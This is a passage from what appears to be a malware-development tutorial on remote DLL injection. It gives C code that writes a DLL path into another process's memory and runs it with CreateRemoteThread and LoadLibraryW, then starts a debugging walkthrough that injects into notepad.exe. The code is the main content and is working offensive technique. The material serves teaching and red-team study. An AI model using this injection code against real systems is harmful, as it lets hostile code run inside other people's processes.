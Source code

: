 ```c
	if (pLoadLibraryW == NULL){
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] pAddress Allocated At : 0x%p Of Size : %d\n", pAddress, dwSizeToWrite);
	printf("[#] Press <Enter> To Write ... ");
	getchar();

	if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite){
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	printf("[i] Successfully Written %d Bytes\n", lpNumberOfBytesWritten);
	printf("[#] Press <Enter> To Run ... ");
	getchar();

	printf("[i] Executing Payload ... ");
	hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
	if (hThread == NULL) {
		printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
	printf("[+] DONE !\n");


_EndOfFunction:
	if (hThread)
		CloseHandle(hThread);
	return bSTATE;
}
```

### Debugging

In this section, the implementation is debugged using the xdbg debugger to further understand what is happening under the hood.

First, run `RemoteDllInjection.exe` and pass two arguments, the target process and the full DLL path to inject inside the target process. In this demo, `notepad.exe` is being injected.

![image](https://maldevacademy.s3.amazonaws.com/images/Basic/remote-dll-injection-1.png)
